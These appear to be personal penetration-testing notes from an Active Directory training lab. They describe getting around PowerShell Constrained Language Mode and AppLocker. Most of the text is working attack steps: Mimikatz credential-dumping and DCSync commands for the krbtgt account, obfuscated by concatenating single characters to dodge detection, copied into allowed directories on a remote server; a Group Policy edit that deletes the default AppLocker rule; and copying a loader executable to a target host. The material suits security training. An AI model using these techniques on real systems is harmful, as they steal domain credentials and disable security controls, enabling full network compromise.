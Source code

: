 View constrained language type
```powershell
$ExecutionContext.SessionState.LanguageMode
```

View Policy
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

Default rules are to allow **Everyone** to access and run scripts from `C:\Program Files` and `C:\Windows`
![[Pasted image 20250506212949.png]]

In the `Constrained Language Mode`, we can't run scripts using dot sourcing (`. .\Invoke-Mimi.ps1`). So, we must modify `Invoke-Mimi.ps1 `to include the 
function call in the script itself and transfer the modified script (`Invoke-MimiEx.ps1`) to the target server.

Create `Invoke-MimiEx-keys.ps1`
- Create a copy of Invoke-Mimi.ps1 and rename it to `Invoke-MimiEx-keys.ps1`
- Open `Invoke-MimiEx-keys.ps1 `in PowerShell ISE (Right click on it and click Edit). 
- Add the below encoded value for "sekurlsa::ekeys" to the end of the file

```powershell
$8 = "s";
$c = "e";
$g = "k";
$t = "u";
$p = "r";
$n = "l";
$7 = "s";
$6 = "a";
$l = ":";
$2 = ":";
$z = "e";
$e = "k";
$0 = "e";
$s = "y";
$1 = "s";
$Pwn = $8 + $c + $g + $t + $p + $n + $7 + $6 + $l + $2 + $z + $e + $0 + $s + 
$1 ;
Invoke-Mimi -Command $Pwn
```

Same thing for Credential Vault
```powershell
$8 = "t"; $c = "o"; $g = "k"; $t = "e"; $p = "n"; $n = ":"; $7 = ":"; $6 = "e"; $l = "l"; $2 = "e"; $z = "v"; $e = "a"; $0 = "t"; $s = "e";
$cmd1 = $8 + $c + $g + $t + $p + $n + $7 + $6 + $l + $2 + $z + $e + $0 + $s;

$v1 = "v"; $v2 = "a"; $v3 = "u"; $v4 = "l"; $v5 = "t"; $v6 = ":"; $v7 = ":"; $v8 = "c"; $v9 = "r"; $v10 = "e"; $v11 = "d";
$v12 = " "; $v13 = "/"; $v14 = "p"; $v15 = "a"; $v16 = "t"; $v17 = "c"; $v18 = "h"; $v19 = '"';
$cmd2 = $v19 + $v1 + $v2 + $v3 + $v4 + $v5 + $v6 + $v7 + $v8 + $v9 + $v10 + $v11 + $v12 + $v13 + $v14 + $v15 + $v16 + $v17 + $v18 + $v19;

# Concatenate both commands into a single string
$Pwn = $cmd1 + " " + $cmd2

# Run it
Invoke-Mimi -Command $Pwn

```

```powershell
# Build 'lsadump::dcsync'
$a1 = "l"; $a2 = "s"; $a3 = "a"; $a4 = "d"; $a5 = "u"; $a6 = "m"; $a7 = "p";
$a8 = ":"; $a9 = ":"; $a10 = "d"; $a11 = "c"; $a12 = "s"; $a13 = "y"; $a14 = "n"; $a15 = "c";
$cmd1 = $a1 + $a2 + $a3 + $a4 + $a5 + $a6 + $a7 + $a8 + $a9 + $a10 + $a11 + $a12 + $a13 + $a14 + $a15;

# Build '/user:TECH\krbtgt'
$b1 = "/"; $b2 = "u"; $b3 = "s"; $b4 = "e"; $b5 = "r"; $b6 = ":"; 
$b7 = "T"; $b8 = "E"; $b9 = "C"; $b10 = "H"; $b11 = "\"; 
$b12 = "k"; $b13 = "r"; $b14 = "b"; $b15 = "t"; $b16 = "g"; $b17 = "t";
$cmd2 = " " + $b1 + $b2 + $b3 + $b4 + $b5 + $b6 + $b7 + $b8 + $b9 + $b10 + $b11 + $b12 + $b13 + $b14 + $b15 + $b16 + $b17;

# Combine and execute
$Pwn = $cmd1 + $cmd2
Invoke-Mimi -Command $Pwn
```

Copy to machine and run
```powershell
Copy-Item C:\AD\Tools\Invoke-MimiEx-keys.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'

Copy-Item C:\AD\Tools\Invoke-MimiEx-vault.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'

.\Invoke-MimiEx-keys.ps1
.\Invoke-MimiEx-vault.ps1
```

### Generic All over AppLocker Policy
**This policy must apply to the machine**

Open CMD as user with rights
```powershell
runas /user:dcorp\srvadmin /netonly cmd
```

Open Group Policy editor
```powershell
gpmc.msc
```

Edit Policy
![[Pasted image 20250507064108.png]]

Policies -> Windows Settings -> Security Settings -> Application Control Policies -> AppLocker

Executable rules, delete `Allow - Everyone - Signed by MS`


Force update on compromised machines
```powershell
gpupdate /force
```

```powershell
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-adminsrv\C$\Users\Public\Loader.exe
```

